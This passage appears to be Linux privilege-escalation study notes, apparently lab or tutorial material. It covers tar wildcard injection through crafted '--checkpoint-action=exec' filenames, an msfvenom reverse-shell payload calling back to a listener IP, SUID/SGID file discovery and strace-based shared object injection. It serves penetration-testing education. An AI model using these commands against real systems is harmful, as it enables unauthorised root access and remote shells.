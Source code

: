 ### Filenames and Wildcards
Since filesystems in Linux are generally very permissive with filenames, and filename expansion happens before the command is executed, it is possible to pass command line options to commands by creating files with these names.
The following should work:
```bash
ls *
touch ./-1
ls *
```

Filenames are not simply restricted to simple options like -h or --help. In fact we can create filenames that match complex options: --option=key=value.
GTFOBins (https://gtfobins.github.io) can help determine whether a command has command line options which will be useful for our purpose.

For example, a simple **tar** command:
```bash
tar czf /tmp/backup.tar.gz *
```
Can be used to escalate privileges by using:
```bash
touch ./--checkpoint=1
touch ./--checkpoint-action=exec=shell.elf
```
Where shell.elf is a payload generated by msfvenom:
```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.0.16 LPORT=1337 -f elf -o shell.elf
```

## SUID / SGID Executables
**SUID** files get executed with the privileges of the file owner.
**SGID** files get executed with the privileges of the file group.
If the file is owned by root, it gets executed with root privileges, and we may be able to use it to escalate privileges.

We can use **find** command to locate files with the SUID or SGID bits set:
```bash
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```

We can perform shell escape sequences with programs running via sudo, we can do the same with SUID / SGID files.
Certain programs install SUID files to aid their operation. Just as services which run as root can have vulnerability we can exploit for a root shell, so too can these SUID files. 

### Shared Object Injection
When a program is executed, it will try to load the shared object it requries. By using a program called **strace**, we can track these sytem calls and determine whether an shared objects were not found. If we can write to the located the program tries to open, we can create a shared object and spawn a root shell when it is loaded.
For example, looking at suid-so:
```bash
strace /usr/local/bin/suid-so | grep -iE "open|access|no such file"
	access("/etc/suid-debug", F_OK)         = -1 ENOENT (No such file or directory)
	access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
	access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No such file or directory)
	open("/etc/ld.so.cache", O_RDONLY)      = 3
	access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
	open("/lib/libdl.so.2", O_RDONLY)       = 3
	access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
	open("/usr/lib/libstdc++.so.6", O_RDONLY) = 3
	access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
	open("/lib/libm.so.6", O_RDONLY)        = 3
	access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
	open("/lib/libgcc_s.so.1", O_RDONLY)    = 3
```